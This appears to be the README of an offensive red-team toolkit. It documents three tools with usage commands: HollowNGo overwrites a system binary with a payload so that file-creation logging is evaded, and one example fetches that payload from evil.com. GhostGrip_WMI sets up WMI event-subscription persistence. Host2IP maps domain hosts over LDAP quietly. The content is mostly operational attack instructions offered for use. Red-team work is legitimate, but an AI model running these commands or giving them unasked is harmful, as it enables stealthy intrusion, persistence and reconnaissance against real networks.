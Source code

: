 ![Alt text]                                                                                                          (https://github.com/MrR4tC4k3/SharpC4k3s/blob/b825632945a7a26b496f8f9cf7cad4e87674cef8/examples/SHARP.png)

HollowNGo aims to avoid FileCreation Events by reading your payload as a byte array, compressing them, and converting the compressed bytes to base64 to a memorysteam. setting the target file stream length to 0, then the same encoding operation in reverse to write to the target file. There are a few options when running the tool as shown below.

Create compressed encoded binary data (This is expected to run on your dev box not the target)
HollowNGo.exe -encode <source.exe> -output <output.txt>
Example: HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

Via data output from -encode option
HollowNGo.exe -source <base64_content> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

Via remote hosted file
Usage: UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
Example: dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe



GhostGrip_WMI creates a WMIEventSubscription for your prefered event for persistence and execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

Usage: GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
Example dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false



Host2IP aims to be a little less noisy than SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to get a list of hostnames, which are then resolved via DNS, achieved via slow/fast mode to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

Usage: Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
Example: dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
Example: dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!

